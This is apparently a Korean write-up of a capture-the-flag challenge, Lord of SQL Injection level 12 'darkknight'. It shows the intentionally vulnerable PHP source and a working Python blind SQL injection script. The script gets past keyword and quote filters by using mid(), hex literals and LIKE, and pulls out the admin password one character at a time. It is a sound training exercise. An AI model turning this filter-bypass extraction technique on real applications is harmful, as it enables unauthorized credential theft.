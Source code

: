 # Lord of SQL Injection No.12 - darkknight
## 문제 출제 의도 
substr(이 아닌 substr을 우회할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
```php
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
```
12번은 substr말고도 싱글 쿼트를 필터링한다.
## Solution
1. mid 함수 사용, 16진수 사용
+ substr 함수는 mid함수로, admin값은 16진수로 표현한다.
+ 더블쿼트 부분을 싱글쿼트로 바꾸고 싱글 쿼트 부분을 더블쿼트로 바꿔준다.
```python
import urllib.request
from urllib.parse import quote

key = ""

for i in range(1, 10):
    for j in range(48, 127):
        url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
        data = '1 || id like 0x61646d696e && mid(pw, {}, 1) like "{}"#'.format(str(i), chr(j)) #or로 연결하기 때문에 no에는 아무값이나 넣어준다.
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36") 
        re.add_header(
            "Cookie", "PHPSESSID=s0p8c0mrjd8rlsc0u0k88ichd4"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            key += chr(j).lower()
            print(key)
            break
print(key)
```
이 코드를 통하여 나온 값 1c62ba6f를 pw값으로 전달하면 문제가 풀린다.